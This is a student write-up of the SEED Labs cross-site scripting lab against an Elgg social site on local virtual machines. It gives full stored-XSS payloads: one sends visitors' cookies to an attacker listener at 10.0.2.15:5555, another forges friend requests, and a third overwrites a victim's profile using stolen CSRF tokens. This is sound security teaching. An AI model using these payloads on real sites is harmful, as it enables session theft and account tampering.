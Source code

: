 ```yaml
---
title: Cross-Site Scripting Attack Lab
author: Xinyi Li
date: \today{}
---
```


Instruction: https://seedsecuritylabs.org/Labs_16.04/PDF/Web_XSS_Elgg.pdf

# Set-up

2 VMs:

- attacker: `10.0.2.15`
- server: `10.0.2.4`

Edit the record in `etc/host` on the attacker:

```
10.0.2.4       www.xsslabelgg.com
```

Read the file `/etc/apache2/sites-available/000-default.conf`:

```conf
<VirtualHost *:80>
        ServerName http://www.xsslabelgg.com
        DocumentRoot /var/www/XSS/Elgg
</VirtualHost>
```

It shows that the sources of website `http://www.xsslabelgg.com` are hosted in `/var/www/XSS/Elgg`

# Task 1

For Firefox, `Web Developer` -> `Network` is also useful.

## Task 1.1

Log in with account `alice` and password `seedalice`, then edit `Brief description` module in `Profile` as:

```html
<script>
  alert("XSS");
</script>
```

And save it.

Now, access http://www.xsslabelgg.com/profile/alice from either the server or the attacker, an alert prompts:

![](./alert_succ.png)

# Task 2

Edit the `Brief description` module and save:

```html
<script>
  alert(document.cookie);
</script>
```

When accessing the profile page, it will show the cookie of the log-in user.

When Boby opens the page, it will be

![from the server](./cookie_succ.png)

For Alice herself:

![from the attacker](./cookie_succ_alice.png)

# Task 3

Edit the `Brief description` as:

```html
<script>
  document.write(
    "<img src=http://10.0.2.15:5555?c=" + escape(document.cookie) + " >"
  );
</script>
```

It will send an HTTP GET request to the port 5555 on the attacker with `document.cookie` whenever the profile page is accessed by any victim user.

Then listen on the port 5555 on the attacker machine:

```
nc -l 5555 -v
```

Once visiting the profile page ( http://www.xsslabelgg.com/profile/alice) from VM `10.0.2.4`, then it will appear on the attacker:

![](./cookie_port.png)

# Task 4

Try to log in as `alice` and add `samy` as a friend, during the process, `network` tool captures the request:

HTTP header:

```
Request URL: http://www.xsslabelgg.com/action/friends/add?friend=47&__elgg_ts=1589608177&__elgg_token=VSvUwjnd17FwcB4BXzuRzQ&__elgg_ts=1589608177&__elgg_token=VSvUwjnd17FwcB4BXzuRzQ
GET /action/friends/add?friend=47&__elgg_ts=1589608177&__elgg_token=VSvUwjnd17FwcB4BXzuRzQ&__elgg_ts=1589608177&__elgg_token=VSvUwjnd17FwcB4BXzuRzQ HTTP/1.1
Host: www.xsslabelgg.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux i686; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://www.xsslabelgg.com/profile/samy
X-Requested-With: XMLHttpRequest
Cookie: Elgg=5tqs9f0im6vp35cr2cva0lpvp4
Connection: keep-alive
```

So construct the payload that forges the user's friend request as:

```html
<script type="text/javascript">
  window.onload = function () {
    var Ajax = null;
    var ts = "&__elgg_ts=" + elgg.security.token.__elgg_ts;
    var token = "&__elgg_token=" + elgg.security.token.__elgg_token;
    //Construct the HTTP request to add Samy as a friend.
    var sendurl =
      "http://www.xsslabelgg.com/action/friends/add?friend=47" + ts + token; //FILL IN
    //Create and send Ajax request to add friend
    Ajax = new XMLHttpRequest();
    Ajax.open("GET", sendurl, true);
    Ajax.setRequestHeader("Host", "www.xsslabelgg.com");
    Ajax.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
    Ajax.send();
  };
</script>
```

Log in with username `samy` and password `seedsamy`.

Add the code above in `Profile` -> `About me` by `edit html` mode.

Now on the VM `10.0.2.4`, sign in as Boby and visit Samy's profile(http://www.xsslabelgg.com/profile/samy), without any extra action, just refresh the page, it shows that Samy is already your (i.e. Boby) friend.

# Task 5

When editing a user's (Alice) own profile legally, the `network` tool captures such an HTTP POST request:

```
Request URL: http://www.xsslabelgg.com/action/profile/edit
__elgg_token=VSvHyrizEfLuFJUoNPOQXg
__elgg_ts=1589672946
name=Alice
description=<p>dsadsa</p>
accesslevel[description]=2
briefdescription=dasasda
accesslevel[briefdescription]=2
location
accesslevel[location]=2
interests
accesslevel[interests]=2
skills
accesslevel[skills]=2
contactemail
accesslevel[contactemail]=2
phone
accesslevel[phone]=2
mobile
accesslevel[mobile]=2
website
accesslevel[website]=2
twitter
accesslevel[twitter]=2
guid=44
POST /action/profile/edit HTTP/1.1
Host: www.xsslabelgg.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux i686; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://www.xsslabelgg.com/profile/alice/edit
Content-Type: application/x-www-form-urlencoded
Content-Length: 505
Cookie: Elgg=ruji2rg6eu80rqj6oebqt57ga7
Connection: keep-alive
Upgrade-Insecure-Requests: 1
```

Then edit Samy's profile and figure out his `guid` as 47

![](guid.png)

Now we want to modify the `about me` module in the profile of someone as `"modified by Samy"` if he/she visits Samy's profile page. Save the code below as Samy's profile:

```html
<script type="text/javascript">
  window.onload = function(){
  //JavaScript code to access user name, user guid, Time Stamp __elgg_ts
  //and Security Token __elgg_token
  var userName="&name="+elgg.session.user.name;
  var guid="&guid="+elgg.session.user.guid;
  var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
  var token="&__elgg_token="+elgg.security.token.__elgg_token;
  var description = "&description=<p>modified by Samy<p>" + "&accesslevel[description]=2";
  //Construct the content of your url.
  var sendurl =  "http://www.xsslabelgg.com/action/profile/edit";
  var content= userName+guid+ts+token+description;
  var samyGuid=47;
  if(elgg.session.user.guid!=samyGuid)
  {
  //Create and send Ajax request to modify profile
  var Ajax=null;
  Ajax=new XMLHttpRequest();
  Ajax.open("POST",sendurl,true);
  Ajax.setRequestHeader("Host","www.xsslabelgg.com");
  Ajax.setRequestHeader("Content-Type",
  "application/x-www-form-urlencoded");
  Ajax.send(content);
  }
  }
</script>
```

Then, visit Samy's profile using Boby's account. Boby's profile is modified at once:

![](./boby_profile.png)